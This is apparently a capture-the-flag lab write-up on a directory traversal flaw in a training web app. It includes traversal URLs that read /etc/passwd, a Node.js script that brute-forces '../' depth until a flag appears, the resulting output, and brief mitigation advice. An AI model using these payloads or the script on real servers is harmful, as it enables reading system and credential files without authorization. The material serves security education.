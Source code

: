 # Directory traversal breach

## How we found the breach

Sources:

[portswigger →](https://portswigger.net/web-security/file-path-traversal)

[owasp →](https://owasp.org/www-community/attacks/Path_Traversal#:~:text=Cookie%3A%20TEMPLATE%3D../../../../../../../../../etc/passwd)

[infosecinstitute →](https://resources.infosecinstitute.com/topic/php-lab-file-inclusion-attacks/)

From the website's home page, after pressing the `Sign In` button we're redirected to `http://IP/?page=signin`.

Depending on how the server handles the params parsing we could pass filename containing absolute paths to other file from the server file system.

A commonly hacked sensitive file is the `/etc/passwd` containing a trace of every computer registered user.

[More information on /etc/passwd →](https://www.ibm.com/docs/bg/aix/7.2?topic=passwords-using-etcpasswd-file)

### Testing the /etc/passwd access

By hitting `http://IP/?page=/etc/passwd` the server returns a page displaying an alert modal containing the label `WTF`:

```html
<script>alert('Wtf ?');</script><!DOCTYPE HTML>
<html>
	<head>
		<title>BornToSec - Web Section</title>
		<meta http-equiv="content-type" content="text/html; charset=utf-8" />
		<meta name="description" content="" />
		<meta name="keywords" content="" />
		<!--[if lte IE 8]><script src="js/html5shiv.js"></script><![endif]-->
		<script src="js/jquery.min.js"></script>
		<script src="js/skel.min.js"></script>
		<script src="js/skel-layers.min.js"></script>
		<script 
```

We can see that the server appends a script tag at the beginning of the page.

We need to dig deeper, considering that the served page could be located recursively anywhere in folders.

The required file path could have infinite number of `..`, this is why we'll need to code a small tool.

### The script

The following script will download the returned page for any `../<...>/../etc/passwd` combination until he found within the first script tag the string `flag`.

Note: This script assumes that the server will send back the flag in the first script tag, and even more that the flag will be displayed using the `flag` appellation.

```ts
// @ts-check
import got from 'got'
import * as cheerio from 'cheerio'

const searchedFile = `/etc/passwd`
const baseUrl = `http://192.168.56.101/?page=`

async function traverseDirectory(query) {
    const url = baseUrl + query;
    const htmlPage = await got(url).text()

    const $ = cheerio.load(htmlPage)
    const firstScriptTag = $('script').first().text();

    if (firstScriptTag.match(/flag/)) {
        console.log(firstScriptTag)
        return
    } else {
        console.log(firstScriptTag)
        const newQuery = `../${query}`
        return traverseDirectory(newQuery)
    }
}

await traverseDirectory(searchedFile)
```

By running the script we get the below output:

```bash
node script.js 

http://192.168.56.101/?page=../etc/passwd
alert('Wtf ?');
http://192.168.56.101/?page=../../etc/passwd
alert('Wrong..');
http://192.168.56.101/?page=../../../etc/passwd
alert('Nope..');
http://192.168.56.101/?page=../../../../etc/passwd
alert('Almost.');
http://192.168.56.101/?page=../../../../../etc/passwd
alert('Still nope..');
http://192.168.56.101/?page=../../../../../../etc/passwd
alert('Nope..');
http://192.168.56.101/?page=../../../../../../../etc/passwd
alert('Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 ');
```

From the output we can see that passing the query `../../../../../../../etc/passwd` returns a flag!

## How to exploit the breach

By being able to browse the server file system the hacker could steal any kind of sensitive information. He could also be able to execute previously uploaded script inside the server file tree.

[See file upload breach →](../../php_script_as_jpg_metadata_file_upload_breach/Ressources/Explanation.md)

## How to avoid the breach

The solutions to avoid this breach are quite similar to those for [Redirect security breach](../../query_param_driving_redirection/Ressources/Explanation.md). The server should not build a path to local filesystem with user-supplied input.

If it's necessary for the application to allow users to access files on the filesystem of the server, the server should validate the path sent by the user, to only allow access to authorized directories.
